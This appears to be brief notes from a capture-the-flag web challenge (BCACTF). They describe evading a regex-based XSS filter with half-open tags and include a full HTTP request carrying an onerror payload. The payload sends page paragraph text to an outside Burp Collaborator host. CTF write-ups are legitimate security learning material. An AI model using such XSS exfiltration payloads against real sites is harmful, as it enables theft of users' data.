 * Bypass regex --> regex basically matching all content within <> angle braces
* Half open braces xss from owasp looks promising
  - https://owasp.org/www-community/xss-filter-evasion-cheatsheet

* payloads tried in exploit.html (for local test)

* request for exploit

```
POST / HTTP/1.1
Host: webp.bcactf.com:49155
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 179
Origin: http://webp.bcactf.com:49155
Connection: close
Referer: http://webp.bcactf.com:49155/
Upgrade-Insecure-Requests: 1

text=<img src=x onerror=document.querySelectorAll("p").forEach(function(node){fetch("http://6y5f15yr1wq9x32ylw8ywbnmldr4ft.burpcollaborator.net/?c=".concat(node.textContent))});
```

